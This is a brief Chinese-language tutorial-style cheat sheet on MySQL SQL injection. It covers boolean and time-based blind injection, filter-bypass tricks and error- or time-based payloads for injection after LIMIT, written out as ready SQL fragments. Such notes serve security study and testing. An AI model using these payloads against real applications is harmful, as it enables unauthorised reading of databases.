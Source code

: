 ### 布尔注入 ###
在传统的观念布尔注入算是盲注的一种，因为无法直接观看到注入结果，最好的方法就是写脚本。但是我觉得也算是一种隐晦的回显。

**用到的函数和字符**
- 字符截取函数
```
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
Lpad(version(),1,1)
Rpad(version(),1,1)
Left(version(),1)
reverse(right(reverse(version()),1)
```
- 字符串连接函数
```
concat(version(),'|',user());
concat_ws('|',1,2,3)
group_concat(version(),'~')
```
- 字符转换
```
Char(49)
Hex('a')
Unhex(61)
```
- 逻辑语言
```sql
^ + = < > && ||
regexp like rlike
```

**语句**

利用上面的构造比较语句吧...太多了....
主要利用的就是if语句如：
`if(length(user())>1,1,0)`
**绕过**
双写(oorr)，大小写，内联注释，编码，等价替换，用户变量等绕过手段
- 过滤了逗号
```
limit 1 offset 0
mid(version() from 1 for 1)
```


### 盲注
和布尔注入的区别就是，把`if(length(user())>1,1,0)`的1变成了sleep(5),`if(length(user())>1,sleep(5),0)`

然后几种延时手法:
笛卡尔积、get_lock、正则bug、sleep、benchmark

## limit后的注入：
- 基于爆错
```sql
SELECT * FROM users WHERE id>0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
```
- 基于时间
```sql
SELECT * FROM users WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```
